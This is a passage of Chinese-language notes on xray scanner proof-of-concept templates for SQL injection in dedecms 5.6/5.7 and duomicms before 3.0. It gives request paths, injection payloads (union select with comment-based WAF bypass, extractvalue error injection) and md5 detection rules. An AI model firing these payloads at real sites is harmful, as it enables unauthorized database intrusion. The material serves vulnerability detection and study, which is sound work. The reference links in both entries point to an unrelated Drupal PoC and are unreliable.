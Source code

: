 - **参考**：[github.com/chaitin/xray/blob/master/pocs/drupal-cve-2014-3704-sqli.yml](https://github.com/chaitin/xray/blob/master/pocs/drupal-cve-2014-3704-sqli.yml)

---


# 0x05 dedecms-membergroup-sqli

- **配置整理**：

    > ## set:  
    >   r: randomInt(800000000, 1000000000)   
    > ## rules:  
    >    - **method: `GET`**  
    >       ```sql
    >         path: >-
    >             /member/ajax_membergroup.php
    >                 ?action=post
    >                 &membergroup=@`'`
    >                     /*!50000Union+*/+/*!50000select+*/+md5({{r}})+--+@`'`
    >                 
    >           follow_redirects: true
    >           expression: |
    >             response.status == 200 && response.body.bcontains(bytes(md5(string(r))))
    >       ```
    >
    > ## detail:   
    >   author: harris2015([https://github.com/harris2015](https://github.com/harris2015))  
    >   **Affected Version: "5.6,5.7"**  
    >   links:     
    >         - [http://www.dedeyuan.com/xueyuan/wenti/1244.html](http://www.dedeyuan.com/xueyuan/wenti/1244.html)

- **路径**：`/member/ajax_membergroup.php`
- **参数**：`membergroup`
- **原理：联合查询，`/*!`、加号绕WAF**  
- **检测**：`md5`运算结果
- **参考**：[github.com/chaitin/xray/blob/master/pocs/drupal-cve-2014-3704-sqli.yml](https://github.com/chaitin/xray/blob/master/pocs/drupal-cve-2014-3704-sqli.yml)

---


# 0x06 duomicms-sqli

- **配置整理**：

    > ## rules:  
    >    - **method: `GET`**  
    >       ```sql
    >         path: >-
    >             /duomiphp/ajax.php
    >                 ?action=addfav&id=1
    >                 &uid=1 
    >                     and extractvalue(1,concat_ws(1,1,md5(2000000005)))  # ERROR 1105 (HY000): XPATH syntax error: 'fc9bdfb86bae5c322bae5acd78760935'
    >                     
    >         follow_redirects: false
    >         expression: |
    >           response.body.bcontains(b"fc9bdfb86bae5c322bae5acd78760935")
    >       ```
    >
    > ## detail:   
    >   author: hanxiansheng26([https://github.com/hanxiansheng26](https://github.com/hanxiansheng26))    
    >   **Affected Version: "duomicms<3.0"**  